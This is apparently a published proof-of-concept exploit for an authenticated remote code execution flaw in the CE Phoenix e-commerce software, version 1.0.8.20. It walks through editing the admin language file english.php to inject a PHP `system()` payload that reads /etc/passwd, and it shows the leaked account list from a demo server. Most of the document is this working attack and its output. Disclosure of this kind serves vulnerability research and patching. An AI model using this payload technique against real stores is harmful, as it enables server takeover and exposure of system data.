 ## Exploit Title: CE Phoenix v1.0.8.20 - Remote Code Execution (RCE) (Authenticated)
### Date: 2023-11-25
### Exploit Author: tmrswrr
### Category: Webapps
### Vendor Homepage: [CE Phoenix](https://phoenixcart.org/)
### Version: v1.0.8.20
### Tested on: [Softaculous Demo - CE Phoenix](https://www.softaculous.com/apps/ecommerce/CE_Phoenix)

### POC:

<img src="https://raw.githubusercontent.com/capture0x/Phoenix/main/1.png" alt="Magento Image" width="1000">
<img src="https://raw.githubusercontent.com/capture0x/Phoenix/main/2.png" alt="Magento Image" width="1000">


1. **Login to admin panel:** 
    - Visit: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/admin/define_language.php?lngdir=english`
    
2. **Access english.php:**
    - Click on `english.php` and inject the payload: 
    ```
    <?php echo system('cat /etc/passwd'); ?>
    ```
    
3. **Save Changes:**
    - Save the modified file.

4. **View Results:**
    - Visit the main page: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/`
    - You will see the following result:


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
webuzo:x:993:993::/home/webuzo:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
apache:x:992:991::/home/apache:/sbin/nologin

